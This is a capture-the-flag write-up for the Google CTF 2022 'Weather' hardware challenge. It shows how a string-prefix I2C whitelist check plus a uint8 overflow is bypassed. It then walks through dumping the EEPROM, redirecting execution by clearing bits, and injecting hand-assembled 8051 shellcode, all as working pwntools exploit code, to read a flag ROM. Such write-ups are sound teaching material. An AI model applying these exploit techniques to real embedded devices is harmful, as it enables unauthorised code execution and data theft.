



# Weather

## Category: Hardware

### Our DYI Weather Station is fully secure! No, really! Why are you laughing?! OK, to prove it we're going to put a flag in the internal ROM, give you the source code, datasheet, and network access to the interface.

## Looking around

So we have at our disposal:

    * A datasheet with some info on the device
    * _firmware.c_ that contains the source code
    * Access to the device's UART

By reading the source code, it becomes clear how the device is intended to be used.

We can read and write on the I2C bus **but we can only use the whitelisted peripherals**.

I2C address whitelist:
```c
const char *ALLOWED_I2C[] = {
  "101",  // Thermometers (4x).
  "108",  // Atmospheric pressure sensor.
  "110",  // Light sensor A.
  "111",  // Light sensor B.
  "119",  // Humidity sensor.
  NULL
};
```

Usage example:
```
$ nc weather.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
Weather Station
? r 101 1
i2c status: transaction completed / ready
22 
-end
```

We also find out that the flag is stored in an SFR-mapped ROM, which isn't accessed at any point during normal execution.

## Finding the vulnerability

This was the easy part.

By carefully examining the source code, it becomes apparent that the I2C whitelist isn't enforced correctly.

In this function, the port number that the user passes is (incorrectly) checked as a string.
```c
bool is_port_allowed(const char *port) {
  for(const char **allowed = ALLOWED_I2C; *allowed; allowed++) {
    const char *pa = *allowed;
    const char *pb = port;
    bool allowed = true;
    while (*pa && *pb) { //this part will compare strings until ANY of the strings terminates
      if (*pa++ != *pb++) {
        allowed = false;
        break;
      }
    }
    if (allowed && *pa == '\0') {
      return true;
    }
  }
  return false;
}
```

But here, it is converted to _uint8\_t_. This value will be used later on in the execution as the actual I2C address.
```c
int8_t port_to_int8(char *port) {
  if (!is_port_allowed(port)) {
    return -1;
  }

  return (int8_t)str_to_uint8(port);
}
```

The string value check can be bypassed by simply passing a port number that's longer than 3 characters because the whitelisted strings are all 3 characters long.
As the final port value is converted to an **unsigned byte**, if we pass a number that's higher than 255, the value will wrap around like this:
```
"255"->0xff # no overflow
"258"->0x02 # overflow 

"10100000000"->0x0 
"10100000255"->0xff 
# 101 passes the check, then the value overflows
```

This way the whitelist is bypassed, giving us an opportunity to enumerate available I2C peripherals.

## Enumeration

```python
def enumerateI2C():    
    
    log.info("i2c enumeration started")    
    
    devices = list()    
    
    for i in range(10100000000, 10100000255):    
        t.recvuntil("?")    
        t.sendline("r " + str(i) + " 1")                                        # ping the address
        resp = t.recvline()    
        log.info(f"{i - 10100000000}: {resp}")    
        if not "device not found" in resp.decode():                             # read status 
            devices.append(i)    
    log.info(f"i2c enumeration finished. {len(devices)} devices found")    
    return devices    
    
def dumpI2C(devices, filePath):    
    
    with open(filePath, "w") as outFile:    
        for i in devices:    
            outFile.write(f"{i} ({i - 10100000000})\n")    
    
foundDevices = enumerateI2C()    
dumpI2C(foundDevices, "i2cdump.txt") 
```

I started by checking the first found device:

```
$ nc weather.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
Weather Station
? w 10100000033 1 2
i2c status: transaction completed / ready
? r 10100000033 64
i2c status: transaction completed / ready
117 19 128 117 20 254 117 21 9 117 22 128 228 245 23 245
24 245 25 2 0 3 175 130 116 1 181 225 5 117 254 1
128 246 133 37 226 174 38 142 227 133 36 228 143 230 117 231
0 175 225 116 1 181 225 5 117 254 1 128 244 143 130 34 
-end
```

And the behaviour matches what is described in the EEPROM section of the datasheet!

## Dumping the EEPROM

Now we can simply create an image of the whole EEPROM to proceed with the exploitation.

_At this point I had an idea to overwrite some bits in the EEPROM (using the procedure described in the datasheet) to get the FLAGROM contents._

```python

EEPROM = 10100000033

def dumpEEPROM(filePath):

    log.info(f"dumping eeprom contents to {filePath}")
    with open(filePath, "wb") as outFile:

        pagelines = list()

        for i in range(64):

            t.recvuntil("?")
            log.info(f"reading page {i}/64...")
            t.sendline("w " + str(EEPROM) + " 1 " + str(i))
            t.recvuntil("?")
            t.sendline("r " + str(EEPROM) + " 64")
            t.recvline()
            for i in range(4):
                pagelines.append(t.recvline().decode().strip())

        for page in pagelines:

            if "end" in page:
                continue

            bytelist = [ int(i) for i in page.split(" ") ]

            outFile.write(bytes(bytelist))

dumpEEPROM("eeprom.bin")
```

We can see a lot of empty space at the end of the image. It would be a perfect place to drop shellcode because according to the datasheet,
EEPROM can be programmed by turning 1's to 0's only.
```
$ xxd eeprom.bin | tail
00000f60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000f70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000f80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000f90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000fa0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000fb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000fc0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000fd0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000fe0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000ff0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
```
Even if we can write shellcode there, we would still have to override the exection flow to get to it somehow.

## Hijacking the execution

I disassembled the binary in ghidra, using 8051 (found in datasheet) as the processor type.

To redirect the execution, we can only flip invividual 1's into 0's. I searched for a fitting instruction manually.

The target I found looks like this:



And this is how it will be transformed into an `LJMP 0x0a0c` instruction, redirecting the execution to the empty space
where our shellcode will be placed.



We only need to flip the 1's so this will work.

```python
CJNE_TARGET = 0x5e6

def byteToClearMask(byte):

    return (1 << 8) - 1 - byte                                                      #little helper function to invert 0's into 1's

def hijackExecution():

    targetPage=math.floor(CJNE_TARGET/64)
    pageOffset = CJNE_TARGET - (targetPage * 64)
    page = [ 0 for _ in range(pageOffset) ]
    page += [0b11111101, 0b11110101, 0b00000000]                                    #this is a clearmask. Every 1 here marks a corresponding bit to be flipped to a 0

    page += [ 0 for _ in range(64-len(page)) ]

    eepromPacket = f"{targetPage} {str(0xa5)} {str(0x5a)} {str(0xa5)} {str(0x5a)}"  #documented in the EEPROM programming section of the datasheet
    for i in page:
        eepromPacket += " "
        eepromPacket += str(i)

    t.recvuntil("?")
    log.info("overriding the execution flow...")
    t.sendline("w " + str(EEPROM) + " " + str(69) + " " + eepromPacket)
```

Let's test it with a simple shellcode.
I assembled it by hand using this reference https://www.keil.com/support/man/docs/is51/is51_opcodes.htm

```python
SHELLCODE_ADDRESS = 0x0a0c

SHELLCODE = [ 0x75, 0xf2, 0x41 ]    #place an ascii 'A' into UART output SFR

def injectShellcode():

    targetPage = math.floor(SHELLCODE_ADDRESS/64)
    pageOffset = SHELLCODE_ADDRESS - (targetPage*64)
    page = [ 0 for _ in range(pageOffset) ]
    page += [ byteToClearMask(i) for i in SHELLCODE ]

    page += [ 0 for _ in range(64-len(page)) ]
    eepromPacket = f"{targetPage} {str(0xa5)} {str(0x5a)} {str(0xa5)} {str(0x5a)}"
    for i in page:
        eepromPacket += " "
        eepromPacket += str(i)

    t.recvuntil("?")
    log.info("injecting the shellcode")
    t.sendline("w " + str(EEPROM) + " " + str(69) + " " + eepromPacket)
    
injectShellcode()
hijackExecution() 
```

Nothing beats the feeling of seeing a carefully placed 'A' on the screen :}



## Get that flag...ROM

Now let's write a real shellcode.

_I could definitely use an 8051 assembler for this task but for some reason, becoming the 8051 assembler myself was too much fun to give up_

```asm
mov r0, 0                   ; 78 0                  ;init counter

mov FLAGROM_ADDR, r0        ; 88 ee
mov A, FLAGROM_DATA         ; e5 ef
mov SERIAL_OUT_DATA, A      ; f5 f2                 
inc r0                      ; 08                    ;increment counter
cjne r0, 256, 0xf7          ; b8 ff f7              ;stop if counter is 256
```

Plug it into the exploit and write a convenient trigger function...
```python
SHELLCODE = [ 0x78, 0x0, 0x88, 0xee, 0xe5, 0xef, 0xf5, 0xf2, 0x8, 0xb8, 0xff, 0xf6 ] 
def trigger():    
    
    log.info("Here goes your flag ^^")    
    
    t.recvuntil("?")    
    t.sendline("r 69 69")    
    
injectShellcode()    
hijackExecution()     
trigger() 
```

Execute!
```
[*] Switching to interactive mode
 CTF{DoesAnyoneEvenReadFlagsAnymore?}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Weather Station
?
```

A flag in Google CTF felt like a medal for a noob like me (◠﹏◠). It was the only challenge I could solve but it taught me how to do research one step at a time, going deeper until I reached the solution.
